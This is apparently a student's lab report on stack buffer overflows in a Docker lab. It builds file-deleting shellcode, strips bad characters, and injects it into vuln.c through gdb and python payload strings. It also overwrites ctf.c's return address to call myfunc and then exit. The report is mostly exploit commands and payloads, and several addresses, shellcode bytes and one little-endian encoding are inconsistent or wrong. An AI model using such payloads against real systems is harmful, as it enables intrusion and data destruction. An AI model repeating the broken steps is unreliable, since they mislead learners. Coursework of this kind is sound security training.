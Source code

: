 *Name: Dinh Thi Thanh Vy*
*ID: 22110093*

# Lab 2: 
---
## Task 1: Inject code to delete file
**Source code: .asm file**

![alt text](./image/image-11.png)

**Run virtual environment by docker file**

![alt text](./image/image-12.png)

**Run file asm and get the shellcode**

Run: `nasm -g -f elf file_del.asm`; `ld -m elf_i386 -o file_del file_del.o`

Get shellcode: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

![alt text](./image/image-13.png)

- We have the shellcode for file_del file as follows:

`\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

--> We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**
![alt text](./image/image-14.png)

- Shell code: `36 bytes`
- Return address: `4 bytes`
--> placement code: `32 bytes`
Here, we will use the vuln.c program to trigger a buffer overflow

**Connect to gdb**
![alt text](./image/image-15.png)
- Break in this position to see the change
`b *0x0804846b`

- Run the program by using command:
>r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-16.png)
--> We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- `0x00` because it marks the end of a string. 
- `0x09` because it's the tab character and would split the argument. 
- `0x0a` because it's the newline character and would also terminate the string.

Additionally, `0x0a` has a decimal value of 10, and upon reviewing the assembly code, we find:
![alt text](./image/image-17.png)

- Change file asm to this:
![alt text](./image/image-20.png)

- Get the shellcode again, we get
`\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`

![alt text](./image/image-19.png)

- For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to  prevent string termination and to identify the position of the return frame.

>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x**0f**'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-22.png)

At this point, the program will likely report an error because it cannot find the address `0xffffffff`. 

- We need to set `0x0c` to `0x00` at the address `0xffffd66b` by using command: 
`set {unsigned char} 0xffffd66b = 0x00`

- we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 

`set *0xffffd69c = 0xffffd658`

**The result will be:**

![alt text](./image/image-23.png)

**Continue runing the program to test out**

![alt text](./image/image-24.png)

- Dummyfile is still here. Look back at the assembly code!

`objdump -d file_del`

![alt text](./image/image-25.png)

As we can see, the dummyfile is **start from** `0xffffd672` **not from** `0x080407a` in C program!
- We need to set 0xffffd651 to point at that using command: 

`set *0xffffd661 = 0xffffd672`

![alt text](./image/image-26.png)

- continue running the program 

![alt text](./image/image-27.png)

-->Dummyfile is deleted. We've done.


## Task 2: Conduct attack on ctf.c
**Source code:**

![alt text](./image/image-30.png)

**Summarizing**

-->we need to find the address of the myfunc function and overwrite the Return Address of the vulnerable function's stack frame with this address:

`p=0x04081211; q=0x44644262`

`(buf[100] + ebp(4) + ReturnA(rewrite by the myfunc's address) + s + p + q)`

= `104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)`
**Run the virtual environment by docker file**

![alt text](./image/image-32.png)

**Debug ctf.c and create ctf.out file:**

`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2`

![alt text](./image/image-32.png)

**Get the myfunc's address by this command:**

`objdump -d ctf.out|grep myfunc`

![alt text](./image/image-33.png)
--> So we obtain the address of the myfunc funtion: `0804851b`

**Connect gdb and run by this command:**

`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`

![alt text](./image/image-34.png)

--> It's not understand and stop running with the debug `0x61616161 in ??`

--> We need to set the exit function address in the Return Address of myfunc to return and continue running to get the value of variables p and q

**Get the exit's address**
`objdump -d ctf.out|grep exit`
![alt text](./image/image-35.png)
--> So we obtain the address of the exit: `080483e0`

**Connect gdb and run again by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`

![alt text](./image/image-36.png)

--> We've done this lab
**Stack frame:**

![alt text](./image/image-29.png)